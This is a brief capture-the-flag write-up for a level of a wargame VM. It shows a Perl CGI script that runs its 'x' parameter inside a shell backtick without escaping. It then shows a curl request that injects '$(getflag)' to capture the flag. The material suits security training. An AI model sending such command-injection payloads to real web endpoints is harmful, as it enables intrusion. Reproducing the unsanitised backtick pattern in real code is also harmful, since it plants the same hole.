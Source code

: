 # Perl

This executable is a Perl script:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This script listens port 4747 to echo whatever it gets in the `x` variable.
However, the string is inserted in the command "as is" so we can inject code into it.

`perl ./level04.pl 'x=\$(getflag)'` and variants are not cooperating and seems to run as level04 (and no flag04).

`service --status-all` shows an Apache instance running and a copy of this script is also in `/var/www/level04`.

We can play with `curl` like...
```bash
curl http://192.168.56.102:4747/\?x\=\$\(getflag\)
```

And magic, we got the flag